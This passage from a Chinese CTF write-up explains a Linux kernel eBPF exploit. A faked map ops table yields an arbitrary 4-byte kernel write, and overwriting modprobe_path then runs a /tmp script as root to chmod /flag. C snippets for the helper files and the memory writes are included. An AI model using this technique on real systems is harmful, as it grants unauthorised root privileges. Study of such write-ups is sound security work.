 ```
    return 0;                                                                       
}
```

加入我们运行 `map_update_elem(mapfd, &amp;key, &amp;value, flags)`, 运行到 `array_map_get_next_key` 之后有

`index  == value[0]`, `next = flags` ， 最终效果是 `*flags  = value[0]`

value[0] 和 flags 都是 ring3 下传入的值，前面我们已经泄露了内核地址，于是就可以通过修改 `flags` 的值写任意内存啦。写入的index要满足`(index &gt;= array-&gt;map.max_entries)`, `map_entries` 可以用`r7` 改成`0xffff ffff`

这里index 和 next 都是 u32 类型， 所以就是任意地址写 4个byte.

具体的操作是
- 1 写 r7 改写 ops 到 fake_ops ( map_push_elem 改成`array_map_get_next_key` 地址)
<li>2 修改 map 的一些字段绕过一些检查
<ul>
- spin_lock_off = 0
<li>max_entries = `0xffff ffff`
</li>
<li>map_type = `BPF_MAP_TYPE_STACK`
</li>
### <a class="reference-link" name="%E6%94%B9modprobe_path%20%E7%94%A8root%E4%BB%BB%E6%84%8F%E5%91%BD%E4%BB%A4"></a>改modprobe_path 用root任意命令

可以任意地址写这个能力还是挺大的了，zdi 的writeup 上是通过搜索 `init_pid_ns`， 找到当前的`task_struct`, 然后写 cred 来获取一个 root shell。

既然已经可以任意地址写了，这里我的做法是改写`modprobe_path` , 然后就可以用root 权限执行任意指令了，虽然不能起root shell， 但是也是可以达到提权目的了(主要是懒 😛 )

`/tmp` 目录下生成 `/tmp/chmod` 和 `/tmp/fake` , `/tmp/chmod` 可以改 `/flag` 文件的权限

```
void gen_fake_elf(){                                                       
    system("echo -ne '#!/bin/shn/bin/chmod 777 /flagn' &gt; /tmp/chmod");   
    system("chmod +x /tmp/chmod");                                         
    system("echo -ne '\xff\xff\xff\xff' &gt; /tmp/fake");                 
    system("chmod +x /tmp/fake");                                          
}
```

然后把`modprobe_path` 改成 `/tmp/chmod`, 然后运行 `/tmp/fake` 就完事啦

```
expbuf64[0] = 0x706d742f -1;                              
 bpf_update_elem(expmapfd,&amp;key,expbuf,modprobe_path);      
 expbuf64[0] = 0x6d68632f -1;                              
 bpf_update_elem(expmapfd,&amp;key,expbuf,modprobe_path+4);    
 expbuf64[0] = 0x646f -1;                                  
 bpf_update_elem(expmapfd,&amp;key,expbuf,modprobe_path+8);
```



## exp
